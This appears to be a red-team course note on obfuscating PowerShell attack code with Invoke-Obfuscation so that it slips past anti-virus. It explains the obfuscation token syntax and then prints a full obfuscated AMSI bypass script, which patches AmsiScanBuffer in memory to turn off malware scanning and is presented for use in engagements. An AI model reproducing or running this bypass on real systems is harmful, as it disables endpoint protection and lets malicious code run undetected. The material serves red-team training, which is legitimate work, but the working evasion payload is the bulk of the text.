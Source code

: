 Now that we have bypassed AMSI, we need to obfuscate and modify our launcher and grunt code to evade anti-virus. We will begin by understanding the basics of using automated obfuscators like `Invoke-Obfuscation` and `ISE-Steroids` to perform advanced string and signature manipulation.  

We again recommend using a development virtual machine to test and edit code.  

## Obfuscating AMSI bypass code

Invoke-Obfuscation, [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation), is a utility built by Daniel Bohannon and Cobbr. It is used to take a series of arguments/obfuscation tokens and automatically obfuscate provided code. From their GitHub, *"Invoke-Obfuscation is a PowerShell v2.0+ compatible PowerShell command and script obfuscator."*. Red teamers can use obfuscation to make reverse engineering/analysis harder and, in some cases, bypass anti-virus and other detections.  

Invoke-Obfuscation syntax can seem very large and scary at first if you don't understand how it breaks down the obfuscation tokens. We can follow along with this guide created by the author of Invoke-Obfuscation to get familiar with the syntax [https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide).  

To begin our obfuscation attempts, we will need to set the script block or the payload we want to obfuscate and then specify tokens to use. Invoke-Obfuscation offers both an argument parsing command-line tool as well as a friendly CLI (Command Line Interface). For our purposes, we will be using the command line. We will only be covering an example of using a token to bypass anti-virus, creating a token command, and the various use cases are out of scope for this task.  

Below is the command we will use to obfuscate our payload. The token command used at the time of writing will bypass anti-virus for some payloads or tools. We will be breaking this command down later in this task.

`Invoke-Obfuscation -ScriptBlock {'Payload Here'} -Command 'Token\\String\\1,2,\\Whitespace\\1' -Quiet -NoExit`

To break it down:

- `-ScriptPath` points to the PowerShell script to obfuscate
    
    - `-ScriptBlock {'<PAYLOAD>'}` will also work for obfuscating scripts or commands directly
- `-Command` is where we string together our obfuscation commands:
    
    - `Token\\String\\1` relates to the first string obfuscation under the token section… it simply concatenates the string. Below is a screenshot of the output of STRING in the _CLI_:  
        ![[Task 33 - JU57 0BFU$C47E 1T-20241012062100154.webp]]
        
    - `2` relates to the 2nd option in the screenshot above, `Reorder` – if you do not supply the full ‘path’ to next obfuscation command (e.g. `Token\\String\\2`) it will append the path from the previous command depending on what is missing…
        
    - `Token\\Variable\\1` relates to the 1st VARIABLE type of TOKEN, and will . As mentioned above, since we left off `Token\\` it has appeneded it from the previous command:  
        ![[Task 33 - JU57 0BFU$C47E 1T-20241012062351572.webp]]
        
    - `Token\\Whitespace\\1` adds random whitespaces between the concatenation:  
	    ![[Task 33 - JU57 0BFU$C47E 1T-20241012062242516.webp]]
        
- `-Quiet` simply makes the output less verbose
    
- `-NoExit` ensures that you don’t exit from **Invoke-Obfuscation**‘s _CLI_ after it has obfuscated the code to your liking.

---
### Further Obfuscated **amsi_bypass.ps1**

```
${methODdEf<code>i
NI
T
ion} =   ('
' + '
 ' + ' '+' ' +  ' ' +  ("[DllImport(
"kernel32
")]
 "+  '') +  ' '+' '  +  ' ' +  'p'  + (  "{1}{0}"-f 'ic ','ubl' ) +  'st'+ ( "{1}{0}" -f'c ','ati') +(  "{0}{1}"-f 'ext','ern' ) +' '+  'Int' + ( "{0}{1}"-f 'P','tr ' )  + ("{0}{1}"-f 'G','etPr'  )+'oc' +'Ad'+  'dre'+  's'+  's'+( ( ("{2}{0}{1}"-f'r',' ','(IntPt' )  )) +  (  "{1}{0}"-f 'od','hM'  )+ ("{1}{0}" -f'e,','ul')  +' '+  ("{1}{0}" -f 'tri','s')  +'n','am','ro' +'cN' + ((( "{1}{0}{2}"-f 'e);
') ) )  + '
'+' '+' ' + ' '  + ' '  +  (  "[DllImport(
"kernel32
")]
 " + ''  )+ ' '+ ' ' +' '+  'pu'+'b' +  ("{0}{1}" -f'lic',' ' )+'st'  +  ( "{1}{0}"-f 'c ','ati')+'ext' +'er' +'n '+ 'In'  +  (  "{0}{1}" -f'tP','tr '  )  + ("{1}{0}" -f'ule','GetMod'  )+ (  "{0}{1}"-f'Ha','ndl'  )+  'e(s' +("{1}{0}"-f'ng','tri' )+' '  + 'lpM' +( "{0}{1}"-f 'odu','leN' ) + 'a' +  'm'  +  'e'+  (  (( "{1}{2}{0}"-f'
 ',');','
')  )) + ' '  +' '+' '  +  ( "[DllImport(
"kernel32
")]
 "+''  )  + ' '+' '+' '+  'pub'+  ("{0}{1}" -f 'lic',' ' ) + 'sta'  +("{1}{0}" -f ' ','tic'  )+'ex'+ (  "{0}{1}"-f'ter','n ' ) +  'b'+(  "{0}{1}"-f'o','ol '  )  +(  "{1}{0}" -f'u','Virt' ) +'al'  +  (  "{2}{0}{1}"-f'ot','ec','Pr')+ ((  ( "{1}{0}" -f 'IntP','t('  )) ) + 'tr '  +( "{0}{2}{1}"-f'lpA','es','ddr') +'s,'  + ' '+'U'  +( "{0}{1}"-f'In','tP'  )+ 'tr '+'d' +("{0}{1}" -f 'wSiz','e,' )+  ' ' +'u' +( "{0}{1}"-f 'int',' ')  + 'f'+ (  "{2}{1}{0}" -f'ot','Pr','lNew'  ) +  ("{1}{0}"-f',','ect') + ' '  +'out'  + ' '+  'uin'+ 't '+  'l'+  (  "{0}{1}" -f 'pflO','ldP' )  +  ( (  ( "{1}{0}{2}"-f 'ect)','rot',';') )  )  +'
'  )  ;

${ke
RN
El32}  =   Add-Type -MemberDefinition ${METhODd
EfIN
ITioN} -Name ('K'+ 'ern' +( "{1}{0}" -f'2','el3')  ) -NameSpace (("{0}{1}" -f'Win','3' )+ '2' ) -PassThru  ;
${aBSd}  =   (  'Ams'+'iS'  ) + (  'ca'+'nB' +  ( "{0}{1}"-f'uffe','r'  )  );
${H
An
DLe}   =  [Win32.Kernel32]::GetModuleHandle( (  'a'+( "{2}{0}{1}"-f '.d','ll','msi'  )) );
[IntPtr]${Buf
F
Er
A
DDREss} = [Win32.Kernel32]::GetProcAddress( ${H
AN
dle}, ${AbSD}) ;
[UInt32]${SiZE}  = 0x5;
[UInt32]${pROTECT
F
lAg}   =   0x40;
[UInt32]${o
ldpROTE
cT
Fl
Ag}  =  0;
[Win32.Kernel32]::VirtualProtect( ${BuF
FerADDr
eSS}, ${Si
zE}, ${prOTeC
TFL
Ag}, [Ref]${oLd
pr
oT
ECTFlag}  ) ;
${bUf}  =  [Byte[]]( [UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3  ) ;
[PSObject].Assembly.GetType( ( ("{1}{0}"-f'st','Sy'  ) +'em'+'.Ma' +  ("{0}{1}"-f'nage','m'  )+ 'ent'  +'.A' +'uto' +("{0}{1}" -f 'mation.T','y')  +'p'+'eA'  + 'cc'+  'e'  +  ("{0}{1}" -f'l','era' )+  ( "{1}{0}" -f's','tor'  )  )  )::Add(  ((  "{0}{1}"-f 'd','1ks')+'t1k' ), [system.runtime.interopservices.marshal]  )
[d1kst1k]::copy(  ${`B`
Uf}, 0, ${b
UffeR
AdD
REss}, 6)  ; 4
```



If obfuscated efficiently, you should now have a successful PowerShell payload that will bypass anti-virus and make reverse engineering harder. Before executing on a production environment, you should always experiment and test on your development server to ensure that everything goes smoothly during the actual production engagement.  

In the next task, we will cover what you can do when obfuscation fails, or you need to use something that isn't purely written in PowerShell by utilizing code review and `ThreatCheck/DefenderCheck`.

**Next step:** [[Task 34 - 'Ca' + 'n' + 'you' + ' ' + 'see' + 'me now' + '?']]
